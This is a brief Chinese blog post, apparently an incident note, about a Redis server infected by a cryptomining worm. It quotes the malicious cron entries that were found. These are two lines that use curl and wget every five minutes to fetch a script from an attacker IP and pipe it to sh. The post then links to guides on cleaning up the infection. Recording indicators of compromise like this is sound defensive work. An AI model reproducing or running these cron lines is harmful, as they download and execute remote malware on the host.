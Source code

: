 ```yaml
---
layout: post
title: "redis-挖矿病毒"
keywords: ["redis"]
description: "redis-挖矿病毒"
category: "redis"
tags: ["redis"]
---
```

{% include JB/setup %}

查木马参考链接：[http://www.bubuko.com/infodetail-1010815.html](http://www.bubuko.com/infodetail-1010815.html)

定时任务被改成了, cpu跑满
```
*/5 * * * * curl -fsSL http://165.225.157.157:8000/i.sh | sh
*/5 * * * * wget -q -O- http://165.225.157.157:8000/i.sh | sh
```

### 处理方案：
1.[https://blog.csdn.net/u012259256/article/details/79840356](https://blog.csdn.net/u012259256/article/details/79840356)
2.[http://www.361way.com/2t3ik-ddgs/5680.html](http://www.361way.com/2t3ik-ddgs/5680.html)
3.[https://blog.csdn.net/qq1137623160/article/details/70207348](https://blog.csdn.net/qq1137623160/article/details/70207348)